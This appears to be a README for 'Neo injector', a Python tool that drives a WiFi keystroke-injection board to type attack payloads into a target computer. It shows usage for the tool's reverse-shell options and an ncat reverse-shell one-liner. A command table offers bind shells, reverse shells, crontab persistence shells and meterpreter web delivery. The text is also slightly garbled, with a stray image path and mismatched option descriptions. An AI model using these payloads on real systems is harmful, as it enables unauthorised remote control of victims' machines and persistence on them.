 **Warning** : Newest version of Neo Toolkit expect the Neo to have a firmware in the prefered language, alternatively you can force the french keyboard with the english firmware using the `--force` arguments. For more customization informations go to swisskyrepo.github.io .

Where to buy a Neo injector ? I got mine from [Aliexpress](https://www.aliexpress.com/item/Cactus-Micro-compatible-board-plus-WIFI-chip-esp8266-for-atmega32u4/32318391529.html)

## How to use the script
```c
python3 injector.py -v --host 127.0.0.1 --port 4242 --payload payloads / windows.txt -h                 
usage: injector.py [-h] [-v] [--host [HOST]] [--port [PORT]]
                       [--user [USER]] [--pass [PASS]] [--panel [PANEL]]
                       [--payload [PAYLOAD]]

optional arguments:
  -h, --help           show this help message and exit
  -v                   Verbosity of the output
  --host [HOST]        Host reverse-shell
  --port [PORT]        Port reverse-shell
  --user [USER]        Wifi Panel username
  --pass [PASS]        Wifi Panel password
  --panel [PANEL]      Wifi Panel password
  --payload [PAYLOAD]  Payload template
```

Targeting a Windows OS
```c
python3 injector.py -v --host 127.0.0.1 --port 4242 --payload payloads/windows.txt
```

Send a simple reverse-shell payload
```
$ python3 injector.py -v --host 127.0.0.1 --port 4444
     -------------------------------------------------------------
      Neo injector - You need to be connected to the Exploit AP
     -------------------------------------------------------------
                   __   °
                 <(o )___
                  ( ._> /
                   `---'                      @pxcs

Enter a payload, eg: bash -c 'nohup ncat 127.0.0.1 4242 -e $SHELL &'
-------------------------------------------------------------------
>>> reverse
Payload:
Rem:Default Payload
Press:130+195
CustomDelay:1000
Print: bash SHELL:14
CustomDelay:1000
Press:176

Sending payload to http://192.168.1.1/runlivepayload
```

## Payloads and commands
| Commands       | Description                           |
| :------------- | :-------------                        |
| bind           | initiate a bind shell on results.port |
| reverse        | initiate a reverse shell on results.host and results.port |
| crontab        | set up a crontab reverse shell on results.host and results.port |
| meterpreter | use exploit script / web delivery with a posh-payload    |
| send some text | send the specified text              |
| h              | help                                 |
| q              | quit                                 |

You can change the options with `SET option_name option_value`
```c
>>> set host 127.0.0.1
>>> set port 4444
```

Thanks to: 
- swisskyrepo
- metasploit
- pxcs
